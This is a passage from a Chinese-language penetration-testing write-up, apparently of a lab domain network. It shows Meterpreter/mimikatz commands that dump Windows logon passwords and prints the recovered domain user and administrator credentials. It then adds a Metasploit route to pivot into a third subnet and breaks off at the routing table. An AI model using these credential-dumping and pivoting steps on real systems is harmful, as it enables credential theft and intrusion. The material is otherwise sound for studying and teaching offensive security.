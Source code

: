 ```
load kiwi
migrate n     // (n指的是进程号)
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

![截图](df991bae31cff11187bebf9a0e0d66d9.png)

成功抓取到域用户bunny和域管理员administrator的凭证：

```
bunny：Bunny2021
administrator：Whoami2021
```

## 第三层网络渗透

现在第二层网络已经渗透完了，我们继续入侵第三层网络（192.168.93.1/24）。在第二层网络Windows服务器的meterpreter中添加一个通往192.168.93.1/24网段的路由：

```
msf6 exploit(multi/handler) > route add 192.168.93.0 255.255.255.0 4                                                                                                                               
[*] Route added                                                                                                                                                                                    
msf6 exploit(multi/handler) > route print                                                                                                                                                          
                                                                                                                                                                                                   
IPv4 Active Routing Table                                                                                                                                                                          
=========================                                                                                                                                                                          
                                                                                                                                                                                                   
```